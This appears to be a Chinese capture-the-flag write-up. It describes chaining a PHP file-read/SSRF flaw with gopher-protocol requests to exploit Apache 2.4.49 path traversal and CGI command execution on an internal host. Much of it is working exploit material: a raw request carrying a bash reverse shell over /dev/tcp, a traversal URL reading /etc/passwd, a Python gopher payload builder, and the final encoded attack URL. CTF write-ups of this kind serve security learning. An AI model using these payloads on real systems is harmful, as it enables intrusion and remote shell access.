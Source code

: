 ```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 172.18.0.3:80
Content-Length: 48
Content-Type: application/x-www-form-urlencoded

echo;bash -i >& /dev/tcp/ip/2333 0>&1
```

访问看起来像一个文件包含，读/etc/passwd果然有，接下来读index.php，f12看到了base64

```
<?php

if (isset($_GET['target'])) {

    $t = $_GET['target'];
    if (!preg_match("/:\/\//", $t)) {
        $data = file_get_contents($t);
        echo "<center>";
        if (preg_match("/GIF89a/", $data)) {
            echo "<img src=\"data:image/gif;base64," . base64_encode($data) . "\"/>";
        } else {
            echo $data;
        }
        echo "</center>";
    } else  {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $t);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_exec($ch);
        curl_close($ch);
    }
} else { ?>

<h2>File Index</h2>
<a href="[表情]target=todo.txt">todo</a></br>
<a href="[表情]target=dog.gif">dog</a></br>


<?php } ?>
```

打ssrf，直接读flag无果，读一下/etc/hosts

![image-20220915120454683](images/1.png)

内网ip为172.18.0.2，扫描一下C段发现了172.18.0.2，是apache2.4.49存在目录穿越漏洞，读到了/etc/passwd

```
http://1.14.69.81/?target=http://172.18.0.3/icons/.%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e/etc/passwd
```

但是也没有flag，命令执行的话需要post，用到gopher协议

```
# -*- coding: utf-8 -*-
import urllib
import requests
test =\
"""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 172.18.0.3:80
Content-Length: 26
Content-Type: application/x-www-form-urlencoded

echo;cat /flag_y0u_f1nd_1t
"""
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = "gopher://172.18.0.3:80/"+'_'+new
result = urllib.parse.quote(result)
print(result)
```



```
http://1.14.69.81/?target=gopher%3A//172.18.0.3%3A80/_POST%2520/cgi-bin/.%25252e/.%25252e/.%25252e/.%25252e/bin/sh%2520HTTP/1.1%250D%250AHost%253A%2520172.18.0.3%253A80%250D%250AContent-Length%253A%252026%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Aecho%253Bcat%2520/flag_y0u_f1nd_1t%250D%250A
```

![image-20220915120729286](images/2.png)